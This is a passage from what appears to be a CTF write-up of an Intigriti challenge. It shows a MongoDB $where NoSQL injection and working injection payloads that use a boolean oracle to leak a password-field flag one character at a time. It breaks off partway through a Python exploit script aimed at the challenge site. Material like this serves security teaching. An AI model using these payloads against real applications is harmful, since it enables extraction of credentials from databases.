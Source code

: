 The result is:

``` js
function () { return this.email == "test@oracle.com" + (arguments.callee.toString()[85]) +"" }
```

So, we can assumed that the code in the back-end is something like this:

``` js
const payload = 'YOUR_EMAIL'

db.find({
  $where: `this.email === "${payload}"`
}).then(result => {
  res.json(result)
})
```

It's not possible to do RCE here because the JS code is sandboxed by MongoDB.

We can also use the similar way to see what `this` have, just change the payload from `arguments.callee.toString()` to `Object.keys[this]`, the result is:

1. id
2. username
3. password
4. friends
5. email

After knowing all the information we need, we can start to leak the flag slowly with following payload:

```
not@not_exist.ext" || (this.password.startsWith("INTIGRITI") && this.password[0] === "A" ) && "" == "
```

It creates following function:

```js
function() {
  return this.email === "not@not_exist.ext" || 
  (this.password.startsWith("INTIGRITI{") && this.password[10] === "A") &&
  "" = ""
}
```

When `this.password.startsWith("INTIGRITI{") && this.password[10] === "A"` is false, search result is `null` because nothing matched.

Otherwise, the user with matched pattern will be returned. 

Here is the exploit script to leak the flag char by char:

``` py
import requests
import json
import concurrent.futures
import string

BASE_URL = 'https://challenge-0123.intigriti.io'
LOGIN_URL = BASE_URL + '/login.html'
EDIT_URL = BASE_URL + '/editor.html'
QUERY_URL = BASE_URL + '/api/friends?q='

SKIP_CREATE_ORACLE = 0
MAX_WORKERS = 15
charset = string.printable

def leak_flag(index, char):
  session = requests.session()
```